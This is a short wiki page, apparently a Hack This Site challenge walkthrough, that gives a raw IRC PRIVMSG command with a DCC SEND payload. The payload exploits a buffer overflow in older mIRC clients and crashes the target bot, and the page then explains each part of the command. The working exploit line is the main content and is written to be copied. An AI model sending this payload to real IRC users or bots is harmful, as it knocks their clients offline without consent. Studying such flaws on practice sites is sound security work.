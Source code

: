 This may or may not work, depending on your operating system, browser,
and IRC client.

    /raw PRIVMSG moo :�DCC SEND "a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a a" 1370673706 3500 4

This exploits a flaw in older versions of mIRC where a buffer overflow
in a DCC SEND command will cause the client (and therefore the bot
script) to crash. "/raw" tells your client to send this raw string
instead of formatting it as you saying something, etc. "PRIVMSG moo"
tells the server that you are private messaging moo " :�" The space,
colon, and 0001 unicode character are required by the IRC protocol "DCC
SEND "..."" tells the remote client that you are trying to direct
connect to send file "..." "1370673706 3500 4" related to the IRC
protocol

[Category:Hack This Site](Category:Hack This Site "wikilink")
